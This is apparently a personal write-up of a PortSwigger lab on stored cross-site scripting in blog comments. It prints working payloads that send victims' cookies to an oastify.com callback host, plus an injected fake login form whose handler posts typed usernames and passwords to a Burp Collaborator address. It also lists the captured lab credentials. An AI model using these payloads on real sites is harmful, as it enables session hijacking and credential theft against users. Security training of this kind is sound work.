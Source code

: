 
# 5 - Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.

---------------------------------------------

Reference: https://portswigger.net/web-security/cross-site-scripting

---------------------------------------------

Generated link: https://0a4b0017031c1eafc216d371007b007a.web-security-academy.net/


We test the most simple XSS payload:



![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/1.png)

It gets executed:



![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/2.png)


Next we test a payload from https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md: 

```
<script>var i=new Image;i.src="http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie="+document.cookie;</script>
```

Or

```
<img src=x onerror="this.src='http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie='+document.cookie; this.removeAttribute('onerror');">
```




![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/3.png)

We get an HTTP request with the cookie:



![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/4.png)

Next I opened the Firefox debugger's Console and set the cookie:

```
document.cookie="secret=5yN1hPLMMamjE1mFPVb7ocKMq7BSYyTK"
```



![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/5.png)

But that does not work...


Solution:

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```



![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/6.png)

Collaborator response:



![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/7.png)

Solved with credentials administrator:ec7ga43qyd9zisyb4h4i:



![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/8.png)